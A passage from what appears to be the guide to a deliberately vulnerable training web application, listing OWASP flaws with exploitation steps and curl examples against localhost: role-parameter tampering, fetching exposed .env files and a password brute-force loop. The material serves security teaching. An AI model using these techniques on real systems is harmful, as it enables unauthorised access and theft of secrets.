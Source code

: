 **Impact:** All user passwords are visible in plain text in the database.

### A03 - Injection (Parameter Tampering)

**Location:** Various API endpoints with user-supplied input

**Description:** Insufficient input validation and parameter tampering vulnerabilities.

**Exploitation:**
1. Manipulate URL parameters and request bodies
2. Test for SQL injection in search and filter endpoints
3. Bypass authentication checks through parameter manipulation

**Example:**
```bash
# Test parameter tampering
curl "http://localhost:3000/wcorp/api/user/notes/1?role=admin"

# Modify request parameters
curl -X POST http://localhost:3000/wcorp/api/register \
  -d '{"username":"test","password":"test","role":"admin"}'
```

### A05 - Security Misconfiguration

**Location:** Multiple configuration issues throughout the application

**Description:** Sensitive configuration files and information are exposed.

**Exploitation:**
1. Access exposed configuration:
   - `http://localhost:3000/.env`
   - `http://localhost:3000/package.json`

2. Check `robots.txt` and `sitemap.xml` for directory structure

3. Explore publicly accessible uploads directory

**Example:**
```bash
curl http://localhost:3000/.env
curl http://localhost:3000/package.json
curl http://localhost:3000/robots.txt
```

### A07 - Identification and Authentication Failures

**Location:** Login and session management

**Description:** Weak authentication mechanisms and predictable session tokens.

**Exploitation:**
1. Attempt brute force attacks (no rate limiting)
2. Analyze session token patterns
3. Test for session fixation and hijacking

**Example:**
```bash
# Brute force attempt (no rate limiting)
for pass in password123 admin123 test123; do
  curl -X POST http://localhost:3000/wcorp/api/login \
    -d "{\"username\":\"admin\",\"password\":\"$pass\"}"
done
```
